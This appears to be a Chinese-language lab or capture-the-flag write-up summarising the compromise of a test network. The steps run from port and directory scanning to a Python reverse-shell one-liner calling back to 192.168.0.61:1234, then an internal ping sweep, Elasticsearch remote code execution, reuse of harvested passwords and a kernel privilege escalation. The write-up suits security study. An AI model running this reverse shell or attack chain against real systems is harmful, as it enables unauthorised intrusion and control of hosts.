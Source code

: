 ![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/eA7qmTFeHVBLWIuL3pwe9andHpRHOI1nzk0jsneBahU.png?raw=true)

完成

```
总结：
首先进行主机发现，扫描了ip地址
扫描到了对其进行端口扫描
22，5000(http)端口开放
对5000端口进行访问，没有什么可利用的点，对其进行目录扫描
扫出来一个admin目录，有代码执行漏洞，利用python反弹shell
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.61",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

进去发现是docker容器
ls /.dockerenv  or  cat /proc/1/cgroup 命令查看

进行内网主机发现
for i in $(seq 1 10);do ping -c 1 172.17.0.$i;done

ping出来了172.17.0.1,2,3主机

进行内网穿透后，代理nmap扫描各个主机

.2有个Elasticsearch 利用远程代码执行漏洞拿下
进入.2的机器有个passwords文件，含有账号密码

ssh连接192.168.0.72

uname -a 发现3.13版本有漏洞
但是利用代码有点问题，进行了删减，最后成功利用
拿下宿主机


最后带着疑问看了一下172.17.0.1的机器，也开着ssh服务，使用proxychains4代理连接，也成功了，也可以提权

```
